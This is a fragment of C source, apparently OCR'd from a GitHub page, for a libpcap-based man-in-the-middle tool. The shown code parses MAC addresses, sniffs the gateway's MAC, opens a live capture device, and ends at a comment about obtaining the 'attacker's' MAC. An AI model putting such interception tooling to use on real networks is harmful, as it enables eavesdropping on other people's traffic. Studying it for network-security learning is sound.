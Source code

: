 ```c

/* htoi */
int htoi(char h) {
    if ('0' <= h && h <= '9')
        return h - '0';
    else
        return h - 'a' + 10;
}

/* get mac address */
void get_mac(u_char *mac, char *str) {
    mac[0] = htoi(str[0]) * 16 + htoi(str[1]);
    mac[1] = htoi(str[3]) * 16 + htoi(str[4]);
    mac[2] = htoi(str[6]) * 16 + htoi(str[7]);
    mac[3] = htoi(str[9]) * 16 + htoi(str[10]);
    mac[4] = htoi(str[12]) * 16 + htoi(str[13]);
    mac[5] = htoi(str[15]) * 16 + htoi(str[16]);
}

/* get gatway's mac */
void getgateway(u_char *user, const struct pcap_pkthdr *hp, const u_char *packet) {
    ethernet_header *pEther = (ethernet_header *)packet;
    printf("The gateway's MAC address is : ");
    print_mac(pEther->SRC_mac);
    memcpy(GATEWAY_MAC ,pEther->SRC_mac, 6);
    printf("\n");
}

void Getinfo(MITM_info *arg) {

    /* definations */
    char *dev;
    char errbuf[PCAP_ERRBUF_SIZE];
    u_int mask;
    u_int net_addr;
    char *net;
    char *real_mask;
    struct in_addr addr_net;
    pcap_t *handle;

    /* start dev */
    dev = pcap_lookupdev(errbuf);
    if (dev == NULL) {
        printf("%s\n", errbuf);
        exit(1);
    }

    /* open device */
    if (pcap_lookupnet(dev, &net_addr, &mask, errbuf) == -1) {
        printf("%s\n", errbuf); //打印错误信息
        exit(1); //结束程序
    }
    addr_net.s_addr = net_addr;
    net = inet_ntoa(addr_net);
    handle = pcap_open_live(dev, 65536, 1, 1000, errbuf);
    if (!handle) {
        printf("%s\n", errbuf);
        printf("If the Problem is \"you don't have permission\", please run this program as root!\n");
        exit(1);
    }

    /* get attacker's mac */
```